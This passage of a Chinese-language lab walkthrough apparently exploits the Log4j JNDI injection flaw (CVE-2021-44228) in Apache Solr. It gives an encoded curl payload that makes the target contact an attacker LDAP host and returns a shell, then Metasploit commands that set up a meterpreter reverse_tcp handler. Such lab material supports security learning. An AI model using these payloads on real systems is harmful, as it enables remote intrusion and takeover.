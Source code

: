 执行 payload

```
┌──(root㉿kali)-[~]
└─# curl http://debian:8983/solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%3a%31%33%38%39%2f%6c%68%75%6d%61%74%7d
```

![执行 payload](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%89%A7%E8%A1%8C%20payload.png)

`成功接收到 shell。` 

**将 shell 返回给 MSF，方便后期操作**

开启 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载 handler

```
msf6 > use exploit/multi/handler
```

显示 handler 选项

```
msf6 exploit(multi/handler) > show options
```

设置 reverse_tcp

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

设置 lhost

```
msf6 exploit(multi/handler) > set lhost kali.local
```

设置 lport

```
msf6 exploit(multi/handler) > set lport 6666
```

> 4444 端口被 nc 占用。

运行
